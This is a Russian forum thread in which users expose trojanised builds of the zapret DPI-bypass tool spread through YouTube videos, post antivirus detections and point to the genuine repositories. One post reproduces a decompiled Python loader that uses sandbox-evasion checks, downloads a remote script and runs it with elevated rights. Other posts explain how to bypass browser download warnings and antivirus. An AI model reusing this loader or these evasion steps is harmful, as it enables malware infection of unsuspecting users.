


Ютуб в рекомендации такое подкинул: https://www.youtube.com/watch?v=Nas2dKKwh_g , тысяча просмотров уже неплохо
Как думаете, новая волна скама опять? Архив в архиве и пароль как бы намекают. Не шарю за сборки, но на вид сборка zapret discord youtube, но в папке bin находится какой-то левый winws1. Ну и автор канала тоже странный какой-то, канал хоть и не пустой, а даже с целой тысячей видео и миллионами просмотров, и закрытым тг каналом на 20 чекловек. Это топик для гудбая, но походу для запрета надо такой же топик сделать. Такое страйкать надо вообще (если это вирус конечно).
upd: winws1 кажется запакованая программа на Пайтоне. Типа загрузчик какой-то, хз. Интересно, что он делает  .
.
upd2: лол, целая сетка походу этих каналов, вот еще один, тоже самое: https://www.youtube.com/watch?v=M-nmWilFzYw
Может я чего-то не выкупаю, и зря на автора гоню. Знатоки, кому не лень, чекните пожалуйста, ради интереса.
Если сейчас это читают неопытные пользователи, пожалуйста не скачивайте это и не запускайте.
upd3: в winws1 находится трижды закодированный base64 с пайтон скриптом, который что-то шлет на некий айпишник, кажется загружает еще какой-то скрипт. Весело.
Уже то, что архив весит 7 мегабайт (в отличии от мегабайтного оригинала) уже должно наводить на определенные мысли.
Распаковать не смог, Защитник орет на троян и сразу все сносит.
Спойлер

Никакого детекта на оригинальный архив сборки этой версии нет.
ну да, я откопал как декомпилировать пайтоновские .exe шники, там веселые вещи происходят, по крайней мере судя по первому файлу который декомпилировал. Ох эти скамеры 
один из файлов если кому интересно:
Спойлер
import os
import sys
import ctypes
import urllib.request
import tempfile
import datetime
import time
import psutil
def n():
boot_time = psutil.boot_time()
boot_time_dt = datetime.datetime.fromtimestamp(boot_time)
current_time = datetime.datetime.now()
uptime = current_time - boot_time_dt
uptime_hours = uptime.total_seconds() / 3600
if uptime_hours < 1:
sys.exit()
def k():
s = datetime.datetime.now()
t1 = time.perf_counter()
cpu_time = time.perf_counter()
e = t1 + 7
while time.perf_counter() < e:
time.sleep(0.2)
t2 = time.perf_counter()
en = datetime.datetime.now()
if (en - s).seconds < 7 or (t2 - t1) < 7 or (time.perf_counter() - cpu_time) < 7:
sys.exit()
def x():
try:
return ctypes.windll.shell32.IsUserAnAdmin()
except:
return False
def y(c):
k()
p = os.path.join(tempfile.gettempdir(), "t.py")
with open(p, 'w') as f:
f.write(c)
params = f'"{p}"'
while True:
try:
result = ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, params, None, 0)
if result > 32:
break
time.sleep(1)
except:
sys.exit(1)
def z(u):
k()
try:
req = urllib.request.Request(u, headers={'User-Agent': 'Mozilla/5.0'})
with urllib.request.urlopen(req) as response:
return response.read().decode('utf-8')
except:
return None
def w(c):
k()
try:
exec(c, globals())
except:
pass
if __name__ == "__main__":
try:
n()
k()
if len(sys.argv) > 1 and os.path.exists(sys.argv[1]):
with open(sys.argv[1], 'r') as f:
sc = f.read()
os.remove(sys.argv[1])
w(sc)
else:
su = "http://НЕКИЙ АЙПИШНИК/lYJqHGDJ/kv10.py"
sc = z(su)
if sc:
y(sc)
sys.exit(0)
except:
pass
Я, в общем, сильно сомневаюсь в пользе этой темы тут - пользователи таких сборок форум не читают, ибо просто не имеют возможности (ntc.party нет в списке обхода). Видимо автор и скамеры сильно не хотят, чтобы их паства знала, что откуда берется и как их любимый продукт тут матерят )
новички которые ничего не понимают часто сюда заходят. Может отдельную тему смысла создавать и нет, ну просто есть топик про липовые версии гудбая, вот решил поделиться еще одной находкой интересной, но для запрета
Айпишник кстати засвечен уже несколько месяцев, и говнил он видимо не только сборками запрета. Сайты по анализу вирусни репортят его действия, как стиллер, кажется.
там весь ютуб в этих скам видео. за сутки уже десяток
Мде, а поначалу просто штучно сборки на гитхаб кидали. Теперь походу целыми волнами заливают, и не остановить этот поток хрени. Печально.
Это шкальники балуются, типа этого.
Да и хрен с ними.
Вот это твой питон. Весело?
Там даже не нужно фейки лепить.
Я как-то уже писал про скам. Добавляют какой-то левый бинарник в сборку, в скриптах прописывают его запуск вместе с оригинальным winws. Этого достаточно, юзер там разбираться не будет. И по размерам архивчик будет всего на пару сотен килобайт больше.

{kind=link}
Специально скачал проверить свой nod32 и да, сразу рубанул троян.
Пролистал пару роликов этого типа по самой верхней ссылке ютуба и понял что его аккаунт тупо кто то сп*здил и разместил там свой ролик, голос типа с котом отличается от последнего ролика с трояном кренделя. Они выбирают аккаунты ютуба, там куда редко что то скидывают, судя по раз в пол года этот тип с котом что то туда кидает и он наверно даже ещё и не в курсе этого, наверно и пароль тоже поменяли, ну а тип со своим котом, нихрена не проверяет, подставил своих подписчиков )))
Казалось бы ролики о котах, ничего таково и соответствующие подписчики, которые вообще не приделах, думают вот молодец тип с котом ))
Или я не выкупаю чего-то, или скамеры особо не парятся. Они же могли бы просто модифицировать запрет, вписать туда что им нужно, и подозрений было бы меньше
Для этого нужны мозги…
Да и контрольная сумма будет отличаться
ну мозгов у них хватило на такую вирусню, чё уж тут запрет модифицировать, делов-то. А контрольная сумма да. Ну всяко подозрений было бы меньше все равно
Скорее знакомый подкинул идею или реализовал через прокладку . И он заработает и ему достанется копейка. А в случае кипиша - пострадает скамер
В чем смысл создавать подобные высеры уничтожающие данные на ЖД? Там ведь даже нету ратника или стиллера. Скорее всего какие то 15 летние школьники возомнили себя “патриотами” и пытаются бороться с ненавистными ими “либерахами”, иначе этот идиотизм никак не объяснить.
Во первых - это возможно.
Во вторых - это весело. Просто весело. Just for lulz.
В третих - это полезно. Поясню: если это научит хотя бы одного из тысячи “погорельцев” впредь не тащить домой всякую гадость - это будет полезно для самого “погорельца”. Естественный отбор.
Придумывать же глубинный политический подтекст всего этого… ну вот это точно глупо. Это не адресная доставка.
ну да мне каспер сразу выдает импостора в архиве его, он еще его запаролил чтобы антивирь не мог проверить архив, и даже запаковал архив в другой архив. Я с этим уже сталкивался, поведение тупо тех кто распространяет вирусню обычно.
Название: UDS:DangerousObject.Multi.Generic
Точность: Точно
Степень угрозы: Высокая
Тип объекта: Файл
Имя объекта: winws1.exe
Путь к объекту: H:\downloads\zapret-discord-youtube-1.5.1\bin
MD5 объекта: 7E7BBE6FC1874B3B3E5FB4F9E85981E7
это ничему никого из тех кто это скачает не научит, дети глупые, взрослые порой тоже не разбираются. Это лишь научит недоверию ко всему, а детям пофиг будет, возраст безответственный еще. А еще люди попадут на данные и возможно деньги. Тут как бы ситуация ни для кого не смешная и не веселая должна быть. Над чужой бедой не смеются, не потешаются и не говорят что она полезна ибо это банально некультурно. Хотя порой бывает необходимо если человек не понимает ситуации в которую он попал, тут как бы от того кто попал и как он себя ведет зависит.
На любом хайпе кто-то желает продвинуть свои интересы. И zapret - не исключение.
Если хотите чем-то помочь, жалуйтесь на вирусники в поддержку платформ, куда оно вылито.
Но только, если уверены, что там вирус.
Вирусописатели стараются точно так же задаунить и реальные сборки, чтобы уменьшить конкуренцию.
Сборки появляются и будут появляться, потому что автор решил самоустраниться из сегмента простых решений для пользователей.
Неплохое решение - скачивать на торент трекерах таких , как nnmclub, rutracker, на сайте topper. Где нет лажи и хорошо проверяют
В оригинальном zapret в docs/quck_start внесена информация о копипасте и сборках
Добрый день, вы на гитхабе написали что можем пойти в лс, я чёт не разобрался где тут лс честно говоря. Я насчёт страйка от мошенников
на его профиль кликни, вверху справа личка.
да он просто 2 часа назад зарегистрировался, надо актив набивать чтоб в личку писать
ребят, есть кто уже решил вопрос со страйками?
Оно вряд ли решится так быстро, потому что эти парни абузят систему ютуба как это делали многие до них в других уголках. На которую ютуб плевал долгие годы и которую не хочет дорабатывать нормально. А их автоматика просто портит жизнь людям т.к. ее успешно дурят. Это не быстрый процесс и для этого нужно добится ручного рассмотрения страйка от ютуба.
Нафиг эти сборки левые максимум что буду качать это кмд файлы под запрет или гудбай дпи. А они пару КБ весят
не хочу расстраивать но батник тоже можно превратить в вирус, который скачает вирус и запустит его автоматически. Поэтому лучше качай с нормальных репозиториев, а не откуда то слева. Если уж скачал слево те же батники, то проверяй их чтобы там не было каких то левых доменов и ссылок на закачку чего либо с последующим стартом этого чего либо. А еще можно замаскировать вирус под бат файл, но это слава богу палится антивирями всеми с фиг знает каких бородатых годов.
Я смотрю что они делают. Их открыть блокнотом можно. А так то да в батник тоже можно запихнуть что угодно.
А может кто сюда перекинуть ссылку на правильную, чистую версию Запрета, чтоб удобнее было?
оригинал: GitHub - bol-van/zapret: DPI bypass multi platform
сборка 1: GitHub - Flowseal/zapret-discord-youtube
сборка 2: YTDisBystro - Архив всех версий
Ну и плюс от автора:
Второй не скачивается браузером из-за вируса… Как можно обойти?
отключить антивирус, или добавить в исключения
Я говорю про саму функцию браузера, Protect или что-то такое.
а, яндекс браузер у вас походу. Хз, в настройках браузера надо смотреть. Если у вас винда 10 и выше, просто edge откройте, и через него скачайте
В хроме - зайти в “Загрузки” (Ctrl + J), тыкнуть на 3 точки на искомом файле - “Скачать опасный файл”
В Я-браузере зайти в “Настройки”, далее перейти во вкладку “Безопасность”, далее убрать галочку с “Проверять безопасность посещаемых сайтов и загружаемых файлов”, после скачивания можно обратно вернуть(тут уже кому как удобнее).
Воспользоваться другим не блотверным софтом по типу Brave и наконец-то начать самостоятельно пользоваться “своей машиной”
Да тут и в оригинале что-то странное происходит.
UPD: Ничего странного, издержки пересборки релизов.
да, как раз сейчас читаю ваши посты. Это хеш winws.exe из zapret discord youtube не сопадает с хешем из Запрета? Коммит в winws.exe был три недели назад, где автор сборки написал что взял его из репозитория запрета. Я пошел в репозиторий запрета, но болван там мутил че-то с репозиторием, и не посмотреть теперь старые коммиты. Короче нужна версия winws.exe из запрета примерно 3-4 недельной давности как я понял, чтоб сравнить.
Да именно так. Из последней версии ZDY ни с одним релизным не совпадает по хэшу, но совпадает по размеру с 65 и 66
То есть эта версия не релизная, раз ее нет в архивах релизов. Автобилд?
всё, норм, хеш из этой версии: Release v65 · bol-van/zapret · GitHub
Подтверждаю. Значит вопрос снимается. А у меня, видимо архив zapret-win-bundle-master65.zip с экзешником из которого сравнивал, видимо что-то впоследствии пересобранное, вместе с экзешником.
если этот текст читают авторы сборок, то пишите в коммитах ссылку, откуда берете бинарники и подобное, чтоб потом хеши сравнить можно было без гемора 
YTDisBystro качает файлы из этого релиза запрета.
у вас в сборке же и бинарников не осталось, всё на cmd’шниках, там пользователю тупо в блокноте надо открыть файл и всё посмотреть по сути
Ну, мало ли ) Всегда лучше перебдеть, чем недобдеть